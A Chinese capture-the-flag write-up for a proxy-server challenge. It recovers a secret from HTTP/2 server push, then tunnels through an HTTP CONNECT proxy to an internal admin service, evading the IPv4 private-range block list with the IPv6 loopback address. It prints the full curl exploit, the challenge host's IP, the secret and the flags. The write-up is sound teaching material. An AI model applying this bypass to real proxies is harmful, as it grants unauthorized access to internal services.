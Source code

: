 # 超安全的代理服务器

本地源代码在 src 文件夹下。

## 考察内容

本题设计指出是为了考察 HTTP 协议的一系列应用。更具体的来说，本题需要各位选手们在答题的过程中了解如下一些内容：

1. HTTP2 的新特性 —— PUSH
2. HTTP CONNECT 可以用于隧道代理
3. 代理服务器的本地代理漏洞
4. IPv6 协议

当然，为了避免不了解相关内容的同学做题时卡克，小 C 在设计本题的时候也希望尽可能充分的给足暗示，希望能够让大家稍微了解一下。

## 解法
使用大部分比较新浏览器打开本题的时候，都会提示 “Notice: 我们已经向您 推送（PUSH） 了最新的 Secret ，但是你可能无法直接看到它。”，同时在帮助中心中也明确提示了“HTTP2”。只要将这两个关键词在谷歌中搜索，就可以找到大量关于 HTTP2 新特性 PUSH 的相关资料。 HTTP2 的更多资料参见 [RFC 7540](https://tools.ietf.org/html/rfc7540)。

### Step 1: 获取 Secret

简单来说，HTTP2 PUSH 特性可以使得服务器更加主动地向浏览器推送资源，使得内容加载更加灵活和快速，但是 HTTP2 PUSH 的内容通常不会直接出现在浏览器的“开发人员工具”中，因此需要更加底层的调试和查看手段。我们在这里提供了两种查看的方法：

### Method 1. 使用 Wireshark 抓包分析
一种很直观的查看方式是直接抓取原始流量进行分析，但是困难在于 h2 内容 大多经过 TLS 协议加密，因此直接查看只能看到加密后的内容。解决方法是提取浏览器中的 TLS 会话秘钥，就可以进行抓包和解密了。具体细节参见：[这一篇文章](https://cloud.tencent.com/developer/article/1416948)

我们使用类似下面的命令可以启动浏览器并导出 TLS 秘钥，并使用 Wireshark 可以抓取到加密的 HTTP2 流量，我们观察到有 PUSH_PROMISE 的内容，具体是一个 URL。我们访问这个 URL 即可得到**代理凭证 secret** 和第一个**flag**
![pic/pic_1.png](pic/pic_1.png)

### Method 2. 使用 nghttp2 工具调试 HTTP2
还有另一个方法是使用命令行工具 nghttp2 来调试获取 push 的内容。

```
$ nghttp -sny https://146.56.228.227/
***** Statistics *****

Request timing:
  responseEnd: the  time  when  last  byte of  response  was  received
               relative to connectEnd
 requestStart: the time  just before  first byte  of request  was sent
               relative  to connectEnd.   If  '*' is  shown, this  was
               pushed by server.
      process: responseEnd - requestStart
         code: HTTP status code
         size: number  of  bytes  received as  response  body  without
               inflation.
          URI: request URI

see http://www.w3.org/TR/resource-timing/#processing-model

sorted by 'complete'

id  responseEnd requestStart  process code size request path
  2    +11.07ms *   +11.03ms     48us  200  571 /dab44e3a-6b65-4bda-a0f4-3bc1531b8a1c
 13    +11.09ms       +270us  10.82ms  200 1015 /
```

最终 flag1 相关的网页部分源代码如下：
```
<p style="color:blue;">Notice: secret: 9a33678d37 ! Please use this secret to access our proxy.(flag1: flag{d0_n0t_push_me} )</p>
```

### Step 2. 入侵控制中心
此时我们已经可以访问我们的代理服务器了。从原理上说，我们的代理服务器使用的是 HTTP CONNECT 代理，其具体原理参考 [RFC 7231](https://tools.ietf.org/html/rfc7231#section-4.3.6)。

有了代理服务器，我们需要访问什么内容呢？其实从题目名字“入侵管理中心”就已经告诉了我们做题的方向了。通过点击“管理中心”这个非常可疑的链接 http://127.0.0.1:8080。这告诉我们需要访问服务器内网 8080 端口上的 http 服务。

其实大部分代理协议（甚至包括早期的“影子袜子”软件等）都可能存在如下漏洞：代理服务器没有过滤一系列私有 IP 段，导致用户可以访问一些本机上（或者内网中）并不希望对外可访问的服务。但是我们的访问控制列表控制的还是比较严密：

* 全球单播地址
* 10.0.0.0/8
* 127.0.0.0/8
* 172.16.0.0/12
* 192.168.0.0/16

其实 IPv4 的单播地址基本都被过滤干净了，可能可以想到可以使用 IPv6 的地址来试试。IPv6 协议中，本地地址通常是 `[::1]` 这样一个地址，因此可以来试试。在连接建立成功后，提示还需要 Referer，最终加上 Referer ，即可构造 exp 并获取 **flag2**。下面给出最终执行的命令以及关键输出。

```
$ curl http://\[::1\]:8080 -p -x https://146.56.228.227:443 -H "referer: https://146.56.228.227" -vvnn --proxy-insecure --proxy-header "Secret: da0d8b646b"

> CONNECT [::1]:8080 HTTP/1.1
> Host: [::1]:8080
> User-Agent: curl/7.64.1
> Proxy-Connection: Keep-Alive
> Secret: da0d8b646b
...
...
...
< HTTP/1.1 200 OK
< Content-Length: 0
...
...
...
> GET / HTTP/1.1
> Host: [::1]:8080
> User-Agent: curl/7.64.1
> Accept: */*
> referer: https://146.56.228.227
...
...
...
< HTTP/1.1 200 OK
< Date: Thu, 05 Nov 2020 11:54:21 GMT
< Content-Length: 32
< Content-Type: text/plain; charset=utf-8
<
* Connection #0 to host 146.56.228.227 left intact
flag2: flag{c0me_1n_t4_my_h0use}
...
```

## 一些提醒
1. IPv6 规则配置不当其实应当引起重视。小 C 自己曾经见到某服务器配置了 200 余条 IPv4 iptables 规则，却放行了全部 IPv6 流量。功亏一篑~
2. 一些代理相关软件至今都存在类似本地代理漏洞的风险，下面是“某白话文教程”中的代码片段原文：
```
      {
        "type": "field",
        "outboundTag": "direct",
        "ip": [
          "geoip:cn",
          "geoip:private"
        ]
      }
```
3. 为了防止一些浏览器能够通过调试控制台得到 secret，小 C 曾经测试了 IE、旧 Edge、新 Edge、Chrome、Firefox、Safari 等主流桌面级浏览器。如果有同学知道有什么浏览器可以直接调试 http2的，可以告诉小 C。**（黑曜石浏览器除外）**
